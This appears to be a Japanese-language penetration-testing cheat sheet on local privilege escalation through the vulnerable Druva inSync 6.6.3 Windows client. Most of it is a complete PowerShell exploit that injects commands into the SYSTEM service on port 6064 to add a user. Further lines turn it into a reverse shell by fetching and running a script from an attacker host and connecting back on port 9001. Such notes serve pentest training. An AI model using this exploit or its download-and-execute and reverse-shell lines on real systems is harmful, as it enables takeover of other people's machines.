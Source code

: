 # 脆弱なサービスを悪用したPrivilege Escalation

## インストールされているプログラムの列挙

```
wmic product get name
```

# Druva inSync Windows クライアントのローカル権限昇格

## 概要

`Druva inSync 6.6.3` は、公開された RPC サービスを介したコマンド インジェクション攻撃に対して脆弱である。このエクスプロイト [PoC](https://www.exploit-db.com/exploits/49211) を使用して権限を昇格できる可能性がある。`Druva inSync` は「統合されたバックアップ、電子情報開示、およびコンプライアンス監視」に使用されるアプリケーションであり、クライアント アプリケーションは強力な NT AUTHORITY のコンテキストでサービスを実行していることがわかります。 SYSTEMアカウント。エスカレーションは、ポート `6064` でローカルに実行されているサービスと対話することで可能になる。

## ローカルポートの列挙

```
netstat -ano | findstr 6064
```

## Druva inSync PowerShell 実証実験

### Exploit PoC

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

### PowerShell PoCの変更

`$cmd` 変数を目的のコマンドに変更する。ここでは、ローカル管理者ユーザーを追加したり、自分自身にリバース シェルを送信したりするなど、さまざまな操作を行うことができる。 [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) で試す。スクリプトを攻撃マシンにダウンロードし、`shell.ps1` に変更して以下の文を追加する。

```
Invoke-PowerShellTcp -Reverse -IPAddress <attack-ip> -Port 9001
```

Druva inSync Exploit PoC の `$cmd` 変数を変更して、PowerShell リバース シェルをメモリにダウンロードする

```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<attack-ip>:8000/sell.ps1')"
```

攻撃マシンでhttpサーバーとNetcatリスナーを起動し、ターゲットホストでPoCを実行することでリバースシェルを取得できる





